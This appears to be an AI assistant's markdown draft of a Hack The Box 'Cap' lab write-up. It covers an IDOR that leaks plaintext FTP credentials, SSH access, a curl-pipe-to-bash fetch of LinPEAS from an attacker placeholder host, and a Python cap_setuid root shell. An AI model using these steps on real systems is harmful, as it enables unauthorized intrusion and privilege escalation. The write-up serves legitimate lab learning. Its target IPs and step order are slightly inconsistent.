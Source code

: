 
Here’s how you can add these images to the **Cap** write-up on your GitHub page. I'll integrate the images with captions in the appropriate places.

### Write-up: **Hack The Box - Cap**

#### **01-Enumeration.md**
```markdown
# Enumeration

## Nmap
Start with an nmap scan to check open ports and services:
```bash
nmap -sC -sV -Pn 10.129.219.24
```
```

**Results**:
- Open Ports: 21 (FTP), 22 (SSH), 80 (HTTP)

![Nmap Scan Results](https://github.com/user-attachments/assets/c6fb655e-c500-40e1-b10d-a3e90491c67e)
)

The HTTP service is running **Gunicorn**, a Python-based HTTP server. No anonymous FTP access is available.

## HTTP Service
Browsing the HTTP server shows a dashboard with network-related functionalities. Certain pages display the output of commands like `ifconfig` and `netstat`, indicating that system commands are being executed in the background.

![Web Dashboard](../images/2%20Webpage.jpg)
![Network Info on Web Dashboard](../images/3%20Web%20Dashboard.jpg)
```

#### **02-Foothold.md**
```markdown
# Foothold

## IDOR Exploit
While creating packet captures, the URL follows the pattern `/data/<id>`. Incrementing the `id` allows access to previous users’ packet captures, revealing a vulnerability known as **Insecure Direct Object Reference (IDOR)**.

Downloading the capture file at `/data/0` and opening it in WireShark reveals FTP traffic containing plaintext credentials:
- **Username**: `nathan`
- **Password**: `Buck3tH4TF0RM3!`

![Security Snapshot](../images/4%20Security%20Snap%20shot.jpg)
![Security Snapshot - User 0](../images/5%20Scurity%20Snap%20Shot%20user%200.jpg)

## SSH Access
Use the credentials to log in via SSH:
```bash
ssh nathan@10.10.10.245
```

![SSH into Nathan](../images/9%20ssh%20into%20nathan.jpg)

You now have a foothold on the system.
```

#### **03-Privilege Escalation.md**
```markdown
# Privilege Escalation

## LinPEAS Scan
Run LinPEAS to find privilege escalation vectors. Download LinPEAS using a Python web server on your attacker machine:
```bash
sudo python3 -m http.server 80
```
Then, download and execute it from the target machine:
```bash
curl http://<YOUR_IP>/linpeas.sh | bash
```

The scan reveals that `/usr/bin/python3.8` has the following capabilities:
- **cap_setuid**
- **cap_net_bind_service**

### Exploit Python Capabilities
The **cap_setuid** capability allows the Python interpreter to switch to UID 0 (root) without the SUID bit set.

To exploit this, run the following Python commands to spawn a root shell:
```python
import os
os.setuid(0)
os.system("/bin/bash")
```

## User Flag
After escalating privileges, retrieve the `user.txt` flag:
```bash
cat user.txt
```

![User Flag](../images/10%20user%20flag.jpg)
```

---

This Markdown content is designed for your GitHub write-up. Make sure the images are placed in a folder named `images` inside the Cap folder in your GitHub repository, and update the image paths accordingly.

Let me know if you need more adjustments!
